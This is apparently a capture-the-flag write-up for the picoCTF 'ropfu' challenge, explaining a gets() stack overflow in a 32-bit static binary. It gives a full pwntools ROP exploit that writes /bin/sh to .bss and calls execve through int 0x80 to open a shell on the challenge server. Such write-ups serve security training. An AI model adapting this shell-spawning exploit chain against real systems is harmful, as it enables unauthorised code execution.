


# ropfu

Challenge Description:

> What's ROP?

> Can you exploit the following program to get the flag?

> Hint1 : This is a classic ROP to get a shell

## Analyzing code

We see that it is a 32 bit executable which is statically linked and not stripped.
This means that the required functions which the program needs are inserted into the executable during compilation itself and they do not need to be linked from other libraries like LIBC etc.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=3aa2bb6a5bf44d90a355da83fa909bbf5d9d90ce, for GNU/Linux 3.2.0, not stripped`

Checksec says that there is a canary present in the binary but this turned out to be a false positive because there was seg faults and there were no stack smashing errors when we overflowed the buffer.

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

This time,we do not have any win function present in the binary,so we have to use return oriented programming to try spawning a shell as given in the description.We cannot use Ret2Libc because libc itself is not linked to the binary and the function addresses are anyway known to us.

```c
void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## Creating a Exploit script

ROP involves using gadgets to continue executing code of the user's choice.These gadgets can be found using `ROPgadget`.
[ROPgadget github link](https://github.com/JonathanSalwan/ROPgadget)

Attack methodology:

1. Write the string `/bin/sh` into the bss section of the binary as it is generally allowed to be written to.Gets() can be used to read this string into the bss.

2. After writing the string into the bss,return back to the vuln function so that we can send our 2nd payload.

3. This time,we try to run `execve(ptr_to_bin_sh , 0, 0)` so that we can get a shell.We can do this by setting `EAX=11`(number for execve) and `EBX=bss_addr`(first arg for execve) and `ECX=0`(second arg for execve) and `EDX=0`(third arg for execve).

4. Finally,we call `int 0x80` which is the system call interrupt which will execute the syscall.

Finding a gadget is not very hard and one of them is shown below



> Note: Initially,instead of `int 0x80`,i ran the syscall gadget which did not work maybe because this is a 32 bit binary.

```python
from pwn import *

def bytes2str(input):
	return str(input,"utf-8")

elf = ELF("./vuln",checksec=False)
#p = elf.process()
p = remote("saturn.picoctf.net", 62474)

gets = elf.sym['gets']
vuln = elf.sym['vuln']
bss_addr = elf.bss() + 64
pop_ecx_ret = 0x08049e39
pop_eax_edx_ebx = 0x080583c8
int_80 = 0x0804a3d2

padding = b'A'*28

payload1 = padding
payload1 += p32(gets)
payload1 += p32(vuln)
payload1 += p32(bss_addr)

p.sendline(payload1)
p.sendline(b"/bin/sh")

payload2 = padding
payload2 += p32(pop_eax_edx_ebx)
payload2 += p32(11)
payload2 += p32(0)
payload2 += p32(bss_addr)
payload2 += p32(pop_ecx_ret)
payload2 += p32(0)
payload2 += p32(int_80)

p.sendline(payload2)
p.interactive()

```

Running the script gives us the shell as shown,

